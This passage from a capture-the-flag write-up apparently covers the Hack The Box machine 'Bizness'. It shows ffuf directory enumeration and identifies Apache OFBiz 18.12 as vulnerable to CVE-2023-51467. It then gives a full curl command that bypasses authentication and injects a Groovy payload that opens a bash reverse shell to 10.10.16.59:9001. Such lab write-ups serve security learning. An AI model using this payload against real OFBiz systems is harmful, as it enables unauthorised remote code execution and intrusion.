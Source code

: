 We get a directory named control let's continue and enumerate the control directory

```shell
pl4int3xt@archlinux ~> ffuf -w ~/Downloads/wordlists/seclists/directory-list-2.3-small.txt:FUZZ -u https://bizness.htb/control/FUZZ -fw 10468

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : https://bizness.htb/control/FUZZ
 :: Wordlist         : FUZZ: /home/pl4int3xt/Downloads/wordlists/seclists/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10468
________________________________________________

login                   [Status: 200, Size: 11060, Words: 1236, Lines: 186, Duration: 5932ms]
help                    [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 5426ms]
main                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3464ms]
view                    [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3551ms]
logout                  [Status: 200, Size: 10756, Words: 1182, Lines: 180, Duration: 618ms]
views                   [Status: 200, Size: 9308, Words: 913, Lines: 141, Duration: 3998ms]
```

We get a login page which is running apache ofbiz and the release is 18.12 which has a command injection vulnerability [CVE-2023-51467](https://vulncheck.com/blog/ofbiz-cve-2023-51467)

![img-description](/img/bizness/2.png)

## Initial foothold

we craft our payload to get a reverse shell as stated in this [Article]((https://vulncheck.com/blog/ofbiz-cve-2023-51467))

```shell
curl -kv -H "Host: bizness.htb" -d "groovyProgram=x=new String[3];x[0]='bash';x[1]='-c';x[2]='bash -i >%26 /dev/tcp/10.10.16.59/9001 0>%261;';x.execute();" "https://bizness.htb/webtools/control/ProgramExport/?requirePasswordChange=Y&PASSWORD=lobster&USERNAME=albino"
```

Running the curl request we gain the initial foothold 
